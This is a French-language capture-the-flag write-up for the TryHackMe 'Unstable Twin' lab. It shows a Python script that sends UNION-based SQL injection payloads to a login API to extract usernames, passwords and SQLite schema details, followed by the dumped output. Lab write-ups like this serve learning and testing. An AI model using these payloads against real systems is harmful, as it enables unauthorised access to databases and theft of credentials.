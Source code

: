 On teste avec des identifiants générique, on nous dit que les identifiants ne sont pas bon.  
On injecte un ' et on a une erreur, dans souvant des cas c'est que c'est possible de faire une injection.  

```python
tim@kali:~/Bureau/tryhackme/write-up$ cat injection.py 
import requests
url = ' http://unstabletwin.thm/api/login'
ii = [
 "1' UNION SELECT username ,password FROM users order by id-- -",
 "1' UNION SELECT 1,group_concat(password) FROM users order by id-- -",
 "1' UNION select 1,tbl_name from sqlite_master -- -",
 "1' UNION SELECT NULL, sqlite_version(); -- -",
 "1' Union SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'; -- -",
 "1' Union SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='notes'; -- -",
 "' UNION SELECT 1,notes FROM notes-- -"]
for i in ii:
    myobj = {'username': i,
             'password': '123456'}
    x = requests.post(url, data=myobj)
    print(x.text)
    myobj = {'username': i,
             'password': '123456'}
    x = requests.post(url, data=myobj)
    print(x.text)
```

On crée un script python on récupèrer les informations dans la base de données.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python injection.py 
"The username or password passed are not correct."

[
  [
    "julias", 
    "Red"
  ], 
  [
    "linda", 
    "Green"
  ], 
  [
    "marnie", 
    "Yellow "
  ], 
  [
    "mary_ann", 
    "continue..."
  ], 
  [
    "vincent", 
    "Orange"
  ]
]

"The username or password passed are not correct."

[
  [
    1, 
    "Green,Orange,Red,Yellow ,continue..."
  ]
```